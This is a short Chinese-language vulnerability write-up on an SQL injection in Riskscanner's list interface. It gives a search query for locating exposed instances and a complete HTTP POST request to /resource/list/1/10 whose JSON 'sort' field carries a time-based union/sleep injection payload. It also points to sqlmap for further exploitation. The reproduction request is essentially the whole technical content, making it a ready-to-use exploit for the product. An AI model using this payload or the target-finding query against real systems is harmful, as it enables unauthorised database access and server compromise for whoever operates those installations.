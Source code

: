 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

```
Riskscanner
```

## 网络测绘

```
title="Riskscanner"
```

## 漏洞复现

登录页面



![](images/202202101940023.png)



发送漏洞请求包



```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![](images/202202101940005.png)



使用工具Sqlmap



![](images/202202101940424.png)